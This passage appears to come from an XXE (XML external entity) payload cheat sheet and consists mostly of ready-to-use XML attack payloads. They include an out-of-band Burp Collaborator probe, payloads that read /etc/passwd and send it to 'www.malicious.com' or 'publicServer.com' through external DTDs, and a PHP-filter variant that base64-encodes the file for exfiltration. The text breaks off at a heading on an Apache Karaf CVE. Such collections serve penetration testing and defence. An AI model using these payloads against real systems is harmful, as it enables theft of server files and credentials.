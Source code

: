 ```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

Send the content of `/etc/passwd` to "www.malicious.com", you may receive only the first line.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### XXE OOB Attack (Yunusov, 2013)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

### XXE OOB with DTD and PHP filter

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

### XXE OOB with Apache Karaf

CVE-2018-11788 affecting versions:
